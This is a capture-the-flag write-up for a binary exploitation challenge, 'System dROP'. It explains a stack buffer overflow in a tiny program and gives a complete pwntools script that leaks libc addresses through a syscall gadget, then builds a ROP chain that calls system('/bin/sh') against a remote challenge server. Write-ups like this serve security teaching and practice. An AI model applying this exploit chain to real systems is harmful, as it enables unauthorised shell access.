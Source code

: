 <div align="center">
    <h1>System dROP</h1>
    <img src="https://img.shields.io/badge/category-pwn-00aaff" /> <img src="https://img.shields.io/badge/points-325-eaeaea" />
</div>

---

```txt
In the dark night, we managed to sneak in the plant that manages all the resources. Ready to deploy our root-kit and stop this endless draining of our planet, we accidentally triggered the alarm! Acid started raining from the ceiling, destroying almost everything but us and small terminal-like console. We can see no output, but it still seems to work, somehow..
This challenge will raise 33 euros for a good cause.
```

---

## Table of Contents

- [Table of Contents](#table-of-contents)
- [recon](#recon)
  - [code & behaviour](#code--behaviour)
    - [`main`](#main)
  - [vulns](#vulns)
    - [buffer overflow](#buffer-overflow)
- [exploit](#exploit)
  - [script](#script)
  - [run](#run)

## recon

### code & behaviour

This program contained very little functionality, so you essentially only had to take a look at the main function. It doesn't print anything, it just reads *a lot*.

#### `main`

```c
undefined8 main(void)
{
  undefined buf [32];
  
  alarm(0xf);
  read(0,buf,0x100);
  return 1;
}
```

### vulns

Yeah, there's only really one vulnerability here, but it's rather bad.

#### buffer overflow

Taking a close look at the `main` function, you'll see that it reads up to `0x100` (= `256`) bytes into a buffer that's only `32` bytes large --> this is a rather huge buffer overflow.

```c
...
  undefined buf [32];
...
  read(0,buf,0x100);
...
```

## exploit

This shouldn't be too complicated this time! Right? Well let's think of a way to exploit this binary step-by-step.

1. There's no *profit* function in the binary, so we'll probably have to `ret2libc`, but, we don't know what `libc` the binary is using. Therefore, we need to leak enough values from the GOT to determine that first.
   1. This is where the real twist comes into play, however: the binary doesn't include any `puts` or `printf` function that would usually be used for leaking values from the GOT. We do, however, have  a `syscall` gadget.
   2. We can just use that - we don't even need to find a ROP gadget to modify the `rax` register's value as `main` returns `1` (*what a coincidence ... ^^*).

![image-20210423222507608](syscall.png)

![image-20210423222720854](table.png)

2. Now that we've determined the `libc` version - using the leaked values and something like [libc.rip](https://libc.rip), we can compute its base in memory and therefore the address of *juicy* things such as `system` or `/bin/sh`. So, just use the buffer overflow with a short *rop-chain* to call `system` with `/bin/sh`.
3. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *
from argparse import ArgumentParser

# ================================ #
RIP_OFF: int    = 0x28
POP_RDI: int    = 0x00000000004005d3
POP_RSI: int    = 0x00000000004005d1
POP_RBP: int    = 0x00000000004004b8
# ================================ #

def _raw_leak(p: ELF, r: tubes.tube.tube, func: int, ret: int) -> bytes:
    leakr: ROP = ROP(p)
    leakr.call(POP_RDI)
    leakr.raw(1)
    leakr.call(POP_RSI)
    leakr.raw(func)
    leakr.raw(u64(b'paddingp'))
    leakr.call(POP_RBP)
    leakr.raw(p64(ret))
    leakr.call(p.sym['_syscall'])
    r.sendline(b'x'*RIP_OFF + leakr.chain())
    return r.recv()

def leak(p: ELF, r: tubes.tube.tube, func: int, ret: int) -> int:
    """Use `write` syscall to leak addresses ... """
    return u64(_raw_leak(p, r, func, ret)[:8])

def main():
    context.clear(arch='amd64')

    parser: ArgumentParser = ArgumentParser()
    parser.add_argument('--debug', action='store_true', help='Debug?')
    parser.add_argument('--remote', action='store_true', help='Remote?')
    parser.add_argument('--libc', type=str, help='Custom libc for remote ... ')
    args = parser.parse_args()

    p: ELF = ELF('./system_drop')
    
    if args.remote:
        l: ELF = ELF(args.libc or './libc6_2.27-3ubuntu1.4_amd64.so')
        print(f'[*] Using libc "{l.path}" ... ')
        r = remote('165.227.237.7', 32499)
    else:
        l: ELF = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
        r = process(p.path)

    if args.debug and not args.remote:
        gdb.attach(r, 'b *main+40')

    for k, v in filter(lambda t: t[0].startswith('got.'), p.sym.items()):
        got: int = leak(p, r, v, p.sym['main'])
        print(f'[*] Leaked "{k}" @ 0x{got:x} ... ')

    alarm: int = leak(p, r, p.sym['got.alarm'], p.sym['main'])
    l.address = alarm - l.sym['alarm']
    print(f'[*] Calculated libc base = 0x{l.address:x} ... ')

    drop: ROP = ROP(p)
    if args.remote:
        drop.call(drop.ret.address)
    drop.call(l.sym['system'], [next(l.search(b'/bin/sh\x00')),])
    print(f'[*] Sending payload: ')
    print(drop.dump())

    r.sendline(b'x'*RIP_OFF + drop.chain())
    r.interactive()

if __name__ == '__main__':
    main()
```

### run

![image-20210423224608711](exploit.png)

<h4 align="center">
    CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
</h4>

---

... m4ttm00ny (April 2021)
